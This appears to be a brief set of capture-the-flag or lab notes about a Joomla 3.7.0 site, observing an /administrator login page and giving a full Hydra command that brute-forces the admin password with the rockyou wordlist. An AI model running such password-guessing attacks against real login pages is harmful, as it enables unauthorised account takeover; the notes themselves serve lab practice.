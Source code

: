 We know it is using joomla 3.7.0 


we have a login page at /administrator




---

using hydra to brute force admin password?

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt $10.10.206.115 http-post-form "/administrator/index.php:username=^USER^&passwd=^PASS^&option=com_login&task=login&return=aW5kZXgucGhw&936112e26bb1f73f3da72a4144185466=1:Username and password do not match or you do not have an account yet."
```

